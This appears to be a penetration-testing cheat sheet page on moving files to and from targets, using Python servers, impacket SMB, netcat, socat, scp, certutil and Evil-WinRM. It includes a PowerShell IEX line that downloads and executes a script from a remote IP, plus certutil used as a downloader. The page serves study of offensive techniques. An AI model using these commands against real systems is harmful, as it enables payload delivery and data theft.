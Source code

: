 ```yaml
---
layout: default
title: Moving Files Around
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Local web server
```csharp
// Python 2
python -m SimpleHTTPServer

// Python3
python3 -m http.server
python3 -m http.server <port>
python3 -m http.server --bind 172.16.0.10 443
python3 -m http.server --bind 172.16.0.10 --directory tools/ 443
```

## Local FTP server
```csharp
// Python 3
python3 -m pyftpdlib
python3 -m pyftpdlib --interface=172.16.6.6 -p4433
python3 -m pyftpdlib --interface=172.16.6.6 -p4433 -username=user --password='pass' --directory=tools/ --verbSMB server
```

## Local SMB server
```csharp
Main issue is trying to bind Windows to a non-standard port number. Running on the standard port requires sudo which is a pain.
// Sudo required for access to lower port.
sudo impacket-smbserver -username user -password pass -smb2support Shared tools/

// Sudo not required for higher port, this proves troublesome for Windows though.
impacket-smbserver -username user -password pass -port 4343 -smb2support Shared tools/
```

## Netcat
Note there are multiple implementations of Netcat: netcat, ncat and nc to name a few.

```csharp
// On sender.
nc -q0 10.x.x.x 4343 < file.in
compress -c file.in | nc -q0 10.x.x.x 4343

// On receiver.
nc -lp 4343 > file.out
nc -lp 4343 | uncompress > file.out
```

## Socat
```csharp
// On sender.
socat -u FILE:file.in TCP:10.x.x.x:4343

// On receiver.
socat -u TCP-LISTEN:4343 OPEN:file.out,creat,trunc
```

## Secure Copy
Assumes ssh access.

```csharp
// Copy file from target to local folder.
scp user@10.x.x.x:file.in /local/folder/

// Copy directory from target to local folder.
scp -r user@10.x.x.x:/remote/folder /local/folder/

// Copy local file to remote target.
scp file.local user@10.x.x.x;/remote/folder/

// Copy local folder to remote target.
scp -r /local/folder/ user@10.x.x.x /local/folder/

// Copy remote file to remote target.
scp from-user@10.x.x.x:/source/folder/ to-user@10.y.y.y:/dest/folder/ 
```

## PowerShell
```csharp
// Download and execute.
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.7:8000/resource')

// Download and save file locally.
(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/resource', 'resource')
```

## Windows certutil.exe
```csharp
// Windows wget equivalent.
certutil -urlcache -f http://10.x.x.x:port/file.ext outfile.exe
```

## Evil-WinRM
```csharp
// Upload local file to remote.
*Evil-WinRM* PS C:\> Upload local.file remote.file

// Download remote file to local.
*Evil-WinRM* PS C:\> Download remote.file local.file
```

## Misc
If you have a shell, conver them to `base64` and copy/paste between windows.

